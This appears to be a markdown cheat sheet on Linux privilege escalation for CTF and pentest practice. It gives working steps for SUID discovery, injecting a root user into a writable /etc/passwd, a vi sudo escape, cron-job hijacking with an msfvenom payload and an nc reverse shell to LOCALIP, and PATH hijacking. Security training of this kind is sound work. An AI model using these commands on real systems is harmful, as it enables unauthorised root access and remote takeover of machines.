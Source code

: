 ## __Summary__

- [__Abusing SUID/GUID Files__](#Abusing-SUID/GUID-Files)
- [__Exploiting a writeable /etc/passwd__](#Exploiting-a-writeable-/etc/passwd)
- [__Escaping Vi Editor__](#Escaping-Vi-Editor)
- [__Exploiting Crontab__](#Exploiting-Crontab)
- [__Exploiting PATH variable__](#Exploiting-PATH-variable)

# __Abusing SUID/GUID Files__

## __Download LinEnum.sh__

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## __What is an SUID binary?__

As we all know in Linux everything is a file, including directories and devices which have permissions to allow or restrict three operations i.e. read/write/execute. So when you set permission for any file, you should be aware of the Linux users to whom you allow or restrict all three permissions. Take a look at the following demonstration of how maximum privileges (rwx-rwx-rwx) look:

```
r=read
w=write
x=execute
```

```
user    group     others

rwx      rwx       rwx

421      421       421
```

The maximum number of bit that can be used to set permission for each user is 7, which is a combination of read (4) write (2) and execute (1) operation. For example, if you set permissions using `chmod` as `755`, then it will be: rwxr-xr-x.

But when special permission is given to each user it becomes SUID or SGID. When extra bit `4` is set to user (Owner) it becomes `SUID` (Set user ID) and when bit `2` is set to group it becomes `SGID` (Set Group ID).

Therefore, the permissions to look for when looking for SUID is:

```
SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx
```

## __Finding SUID Binaries__

```
find / -perm -u=s -type f 2>/dev/null
# -perm - searches for files with specific permissions
# -u=s - any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
```

# __Exploiting a writeable /etc/passwd__

```
test:x:0:0:root:/root:/bin/bash

1. Username
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file.
3. User ID (UID): UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info
6. Home Directory
7. Command/shell
```

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

## __Steps to reproduce__

Before we add our new user, we first need to create a compliant password hash to add!

```
openssl passwd -1 -salt [salt] [password]
openssl passwd -1 -salt new 123
```

Now we need to take this value, and create a new root user account.

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash
```

Now we have to add that entry to the end of the /etc/passwd.

# __Escaping Vi Editor__

```
sudo -l
(root) NOPASSWD: /usr/bin/vi
```

 GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. It provides a really useful breakdown of how to exploit a misconfigured binary and is the first place you should look if you find one on a CTF or Pentest.

https://gtfobins.github.io/

All we need to do is open vi as root, by typing `sudo vi` into the terminal.

Now, we have to type `:!sh` to open a shell!

# __Exploiting Crontab__

## __How to view what Cronjobs are active__

We can use the command `cat /etc/crontab` to view what cron jobs are scheduled. This is something we should always check manually whenever we get a chance, especially if LinEnum, or a similar script, doesn't find anything.

## __Format of a Cronjob__

```
# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run
```

```
#  m   h dom mon dow user  command
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```

## __Exploitation__

We create a payload:

```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```

Lets replace the contents of the file with our payload using:

```
echo "mkfifo /tmp/zcmh; nc LOCALIP 8888 0</tmp/zcmh | /bin/sh >/tmp/zcmh 2>&1; rm /tmp/zcmh" > randomscript.sh
```


After copying the code into randomscript.sh file we wait for cron to execute the file, and start our netcat listener using:

```
nc -lvp 8888
```

and wait for our shell to land.

# __Exploiting PATH variable__

It is very simple to view the Path of the relevant user with help of the command `echo $PATH`.

## __How does this let us escalate privileges?__

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!

## __Exploitation__

We know that there is a script called `random` that, when executed, launches the command `ls` (this script was created by root).
Our goal is to create an imitation executable to open a bash shell.

```
echo "[whatever command we want to run]" > [name of the executable we're imitating]
```

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
```

Now, we need to change the PATH variable, so that it points to the directory where we have our imitation `ls` stored! We do this using the command `export PATH=/tmp:$PATH`.

> The real `ls` is in the following path: /bin/ls

Now we only have to launch the script again so that a shell is executed as root.

Once we have finished the exploit, we can exit out of root and use `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH` to reset the PATH variable back to default, letting us use "ls" again!

# __Resources__

https://pentestlab.blog/2017/09/25/suid-executables/

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation

